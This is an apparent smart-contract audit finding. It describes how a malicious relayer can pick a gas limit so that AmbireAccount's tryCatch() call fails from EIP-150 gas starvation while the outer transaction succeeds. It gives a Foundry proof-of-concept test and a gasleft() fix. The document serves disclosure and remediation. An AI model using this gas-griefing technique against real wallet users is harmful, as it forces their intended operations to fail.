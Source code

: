 # Attacker can force the failure of transactions that use `tryCatch`

An attacker or malicious relayer can force the failure of transactions that rely on `tryCatch()` by carefully choosing the gas limit.

## Impact

The `tryCatch()` function present in the AmbireAccount contract can be used to execute a call in the context of a wallet that is eventually allowed to fail, i.e. the operation doesn't revert if the call fails.

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L119-L123

```solidity
119: 	function tryCatch(address to, uint256 value, bytes calldata data) external payable {
120: 		require(msg.sender == address(this), 'ONLY_IDENTITY_CAN_CALL');
121: 		(bool success, bytes memory returnData) = to.call{ value: value, gas: gasleft() }(data);
122: 		if (!success) emit LogErr(to, value, data, returnData);
123: 	}
```

[EIP-150](https://eips.ethereum.org/EIPS/eip-150) introduces the "rule of 1/64th" in which 1/64th of the available is reserved in the calling context and the rest of it is forward to the external call. This means that, potentially, the called function can run out of gas, while the calling context may have some gas to eventually continue and finish execution successfully. 

A malicious relayer, or a malicious actor that front-runs the transaction, can carefully choose the gas limit to make the call to `tryCatch()` fail due out of gas, while still saving some gas in the main context to continue execution. Even if the underlying call in `tryCatch()` would succeed, an attacker can force its failure, while the main call to the wallet is successfully executed.

## Proof of Concept

The following test reproduces the attack. The user creates a transaction to execute a call using `tryCatch()` to a function of the TestTryCatch contract, which simulates some operations that consume gas. The attacker then executes the bundle by carefully choosing the gas limit (450,000 units of gas in this case) so that the call to TestTryCatch fails due to out of gas, but the main call to `execute()` in the wallet (here simplified by using `executeBySender()` to avoid signatures) gets correctly executed.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/535a969c96e0a6f78781287bd0931b6a).

```solidity
contract TestTryCatch {
    uint256[20] public foo;

    function test() external {
        // simulate expensive operation
        for (uint256 index = 0; index < 20; index++) {
            foo[index] = index + 1;
        }
    }
}

function test_AmbireAccount_ForceFailTryCatch() public {
    address user = makeAddr("user");

    address[] memory addrs = new address[](1);
    addrs[0] = user;
    AmbireAccount account = new AmbireAccount(addrs);

    TestTryCatch testTryCatch = new TestTryCatch();

    AmbireAccount.Transaction[] memory txns = new AmbireAccount.Transaction[](1);
    txns[0].to = address(account);
    txns[0].value = 0;
    txns[0].data = abi.encodeWithSelector(
        AmbireAccount.tryCatch.selector,
        address(testTryCatch),
        uint256(0),
        abi.encodeWithSelector(TestTryCatch.test.selector)
    );

    // This should actually be a call to "execute", we simplify the case using "executeBySender"
    // to avoid the complexity of providing a signature. Core issue remains the same.
    vm.expectEmit(true, false, false, false);
    emit LogErr(address(testTryCatch), 0, "", "");
    vm.prank(user);
    account.executeBySender{gas: 450_000}(txns);

    // assert call to TestTryCatch failed
    assertEq(testTryCatch.foo(0), 0);
}
```

## Recommendation

The context that does the call in `tryCatch()` can check the remaining gas after the call to determine if the remaining amount is greater than 1/64 of the available gas before the external call.

```solidity
  function tryCatch(address to, uint256 value, bytes calldata data) external payable {
      require(msg.sender == address(this), 'ONLY_IDENTITY_CAN_CALL');
+     uint256 gasBefore = gasleft();
      (bool success, bytes memory returnData) = to.call{ value: value, gas: gasleft() }(data);
+     require(gasleft() > gasBefore/64);
      if (!success) emit LogErr(to, value, data, returnData);
  }
```
